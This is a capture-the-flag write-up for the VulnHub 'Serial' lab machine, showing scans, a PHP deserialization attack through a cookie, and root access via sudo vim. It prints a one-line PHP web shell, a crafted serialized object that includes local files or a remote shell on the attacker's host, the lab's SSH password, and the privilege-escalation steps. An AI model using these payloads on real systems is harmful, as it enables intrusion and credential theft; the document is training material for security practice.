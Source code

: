 Serial -  PHP Serialization in cookie

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery of source files php
[+] Serialization on localhost and remote host
[+] Serialization in the cookie 
[+] PHP reverse Shell
[+] Privilege Escalation abusing SUDO rights /usr/bin/vim
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.107
Host is up (0.00075s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:f2:95:6a:f2:97:e0:ff:9f:68:14:a0:3a:d8:e2:eb (RSA)
|   256 e0:1e:cf:6f:29:4e:09:bb:df:4a:08:08:44:d4:f0:49 (ECDSA)
|_  256 38:28:63:c6:e4:bc:38:7e:6f:c2:72:b3:42:26:17:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Ubuntu))
|_http-server-header: Apache/2.4.38 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:8E:04:D1 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# dirb http://192.168.56.107

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct 25 06:43:58 2019
URL_BASE: http://192.168.56.107/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.107/ ----
==> DIRECTORY: http://192.168.56.107/backup/                                                                                                                   
+ http://192.168.56.107/index.php (CODE:200|SIZE:52)                                                                                                           
+ http://192.168.56.107/server-status (CODE:403|SIZE:302)                                                                                                      
                                                                                                                                                               
---- Entering directory: http://192.168.56.107/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.107/

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.107
Hello sk4This is a beta test for new cookie handler

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Looking at the cookies sent to the server

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Serial/serial1.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# echo 'Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086NzoiV2VsY29tZSI6MDp7fX0%3D' | base64 -d
O:4:"User":2:{s:10:"Username";s:3:"sk4";s:9:"Userwel";O:7:"Welcome":0:{}}base64: invalid input

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Downloading the backup.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# wget http://192.168.56.107/backup/bak.zip
--2019-10-25 06:45:30--  http://192.168.56.107/backup/bak.zip
Connecting to 192.168.56.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1009 [application/zip]
Saving to: ‘bak.zip’

bak.zip                                 100%[===============================================================================>]    1009  --.-KB/s    in 0s      

2019-10-25 06:45:30 (34.7 MB/s) - ‘bak.zip’ saved [1009/1009]

root@setrus:~# unzip bak.zip 
Archive:  bak.zip
  inflating: index.php               
  inflating: log.class.php           
  inflating: user.class.php 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After reading the code from the php files the final fiels are:

user.class.php


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat user.class.php 
<?php
  include("log.class.php");

  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }

  class User {
    private $name;
    private $wel;

    function __construct($name) {
      $this->name = $name;
      $this->wel = new Log();
    }

    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }
echo base64_encode(serialize(new User('setrus')));
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


log.class.php

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# cat log.class.php 
<?php
  class Log {
    private $type_log="/etc/passwd";

    function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Testing serialization

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# php user.class.php
LOG: setrusTzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjY6InNldHJ1cyI7czo5OiIAVXNlcgB3ZWwiO086MzoiTG9nIjoxOntzOjEzOiIATG9nAHR5cGVfbG9nIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fX0=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Testing the serialization on the server:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Serial/serial2.png)

Modifying the log file to include something from kali .


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# service apache2 start
root@setrus:~# ls -al /var/www/html/cmd_shell.php 
-rw-r--r-- 1 root root 31 Oct 25 07:02 /var/www/html/cmd_shell.php
root@setrus:~# cat /var/www/html/cmd_shell.php
<?php system($_GET["cmd"]); ?>
root@setrus:~# 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Modifying the log.class.php

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# cat log.class.php 
<?php
  class Log {
   // private $type_log="/etc/passwd";
//    private $type_log="http://192.168.56.102/cmd_shell.php";
    private $type_log="/credentials.txt.bak";  
  function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the credentials to login to the server

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Serial/serial3.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sk4:KywZmnPWW6tTbW5w
LOG: setrusThis is a beta test for new cookie handler

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh sk4@192.168.56.107
sk4@192.168.56.107's password: 
Welcome to Ubuntu 19.04 (GNU/Linux 5.0.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 updates can be installed immediately.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Tue Aug 20 11:23:45 2019 from 192.168.1.5
sk4@sk4-VM:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sk4@sk4-VM:~$ sudo -l
Matching Defaults entries for sk4 on sk4-VM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sk4 may run the following commands on sk4-VM:
    (ALL) NOPASSWD: /usr/bin/vim
sk4@sk4-VM:~$ sudo /usr/bin/vim

root@sk4-VM:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sk4-VM:~# 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~









